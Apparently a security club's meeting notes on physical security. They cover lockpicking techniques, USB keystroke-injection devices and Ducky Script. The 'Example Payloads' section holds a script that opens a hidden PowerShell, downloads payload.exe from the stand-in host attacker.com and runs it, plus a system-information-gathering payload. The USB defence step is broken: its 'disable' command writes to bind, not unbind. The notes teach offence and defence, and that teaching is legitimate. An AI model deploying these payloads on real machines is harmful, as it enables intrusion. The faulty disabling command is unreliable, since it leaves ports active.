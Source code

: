 # Meeting 3: Physical Security


## Table of Contents
- [Lockpicking](#lockpicking)
  * [Introduction to Lockpicking](#introduction-to-lockpicking)
  * [Common Tools and Their Uses](#common-tools-and-their-uses)
  * [Lockpicking Techniques](#lockpicking-techniques)
  * [Ethical Considerations](#ethical-considerations)
- [Devices](#devices)
  * [Rubber Duckies](#rubber-duckies)
  * [Ducky Script](#ducky-script)
  * [Creative Devices](#creative-devices)
  * [Defending Yourself from USB Attacks](#defending-yourself-from-usb-attacks)

## Lockpicking
<https://simmer.io/@Xill/lockpick-simulator>
Move the tool with Q, E, WASD, and use the slider on the bottom to increase tension.

### Introduction to Lockpicking

Lockpicking is the art of manipulating the components of a mechanical lock without the original key to open it. While often associated with criminal intent, lockpicking is an essential skill for certain professions like locksmithing, and can be a fulfilling hobby for many enthusiasts.

### Common Tools and Their Uses

- **Tension Wrench:** A tool used to apply rotational tension on the lock cylinder. This tension causes the lock pins to bind, allowing the picker to manipulate them.
  
- **Hook Picks:** These tools are used to individually set pins inside the lock.
  
- **Ball Picks:** Used for wafer locks, the ball shape allows manipulation of multiple wafers at once.
  
- **Diamond Picks:** Suitable for both wafer and pin tumbler locks. The shape helps in raking and single pin picking.
  
- **Rakes:** Tools like the Bogota or the snake rake are moved in and out of the lock to quickly set multiple pins at once. Raking is faster but less precise than single pin picking.

### Lockpicking Techniques

1. **Single Pin Picking (SPP):** A technique where each pin is set individually. This is the most versatile method but requires practice.
  
2. **Raking:** A faster method than SPP. The rake is moved in and out of the lock, attempting to set multiple pins at once. It's less precise but can open many locks in seconds.

3. **Bumping:** Using a specially cut key, the lock is "bumped" causing the pins to jump, allowing the lock to turn. Not all locks are vulnerable to this technique.

4. **Impressioning:** A method where a blank key is inserted into the lock and manipulated to leave marks indicating where cuts should be made.

## Devices
### Rubber Duckies
Popularized by Hak5, this is a common language for keystroke injector tools.

Some keystroke injectors double as both a real USB and a keystroke injector, so the victim won't notice the difference. 
#### Installing Script Emulator
`curl https://dlcdn.apache.org//commons/codec/binaries/commons-codec-1.16.0-bin.tar.gz -o commons-codec-1.16.0-bin.tar.gz`

`tar -xzf commons-codec-1.16.0-bin.tar.gz `

`javac -cp .:commons-codec-1.16.0/commons-codec-1.16.0.jar *.java`

From the `src` directory: `java -cp .:duckyemulator/commons-codec-1.16.0/commons-codec-1.16.0.jar duckyemulator.DuckyEmulator`


### Ducky Script
Simple .txt files. 

#### Ducky Payloads
+ <https://github.com/hak5/usbrubberducky-payloads/tree/master>
+ <https://shop.hak5.org/blogs/payloads>

+ REM: Used for comments. It doesn't affect the script's execution.
```ducky
REM This is a comment
```
+ DELAY: Pauses the script for a specified number of millisecond
```
DELAY 1000  REM Waits for 1 second
```
+ STRING: Types the subsequent string of characters as if typed on a keyboard.
```
STRING Hello, World!
```
+ ENTER (or RETURN): Simulates pressing the Enter key.
```
ENTER
```
+ GUI (or WINDOWS or COMMAND): Simulates pressing the Windows key (on Windows) or Command key (on macOS).
```
GUI r  REM Opens the Run dialog on Windows
```
+ ALT, CONTROL (or CTRL), SHIFT: Modifier keys used in combination with other keys.
```
CONTROL ALT DELETE  REM Sends the Ctrl+Alt+Del command
```

##### Example Payloads
+ Payload Delivery: Use Ducky Script to automate the process of downloading and executing a payload from a remote server.
```
REM Open a command prompt
GUI r
STRING cmd
ENTER
DELAY 500
REM Download and execute payload
STRING powershell -NoP -NonI -W Hidden -Exec Bypass -Command "Invoke-WebRequest -Uri 'http://attacker.com/payload.exe' -OutFile 'C:\temp\payload.exe'; Start-Process 'C:\temp\payload.exe'"
ENTER
```
+ Information Gathering: Quickly execute commands to gather system information and save to a file or exfiltrate.
```
REM Gather system info using systeminfo command
GUI r
STRING cmd
ENTER
DELAY 500
STRING systeminfo > C:\temp\info.txt
ENTER
```

### Creative Devices
Cables:
+ <https://zsecurity.org/product/badusb-c-keystroke-injection-cable/>
+ <https://shop.hak5.org/products/omg-cable>

Bash Bunny:
+ <https://shop.hak5.org/products/bash-bunny>
+ <https://github.com/hak5/bashbunny-payloads>

### Defending yourself from USB Attacks
#### Turning off your ports
+ Windows Device Manager
+ Linux Mint
    1. Run `lsusb` to determine the bus and device number of the USB device you want to disable.
    2. To disable the device, echo the bus and device number to `/sys/bus/usb/drivers/usb/unbind`. For example, if your device is on bus 2 and its device ID is 1, you would run:
    
    ```bash
    echo '2-1' | sudo tee /sys/bus/usb/drivers/usb/bind
    ```

    3. To re-enable the device, echo the bus and device number to `/sys/bus/usb/drivers/usb/bind`:

    ```bash
    echo '2-1' | sudo tee /sys/bus/usb/drivers/usb/bind
    ```


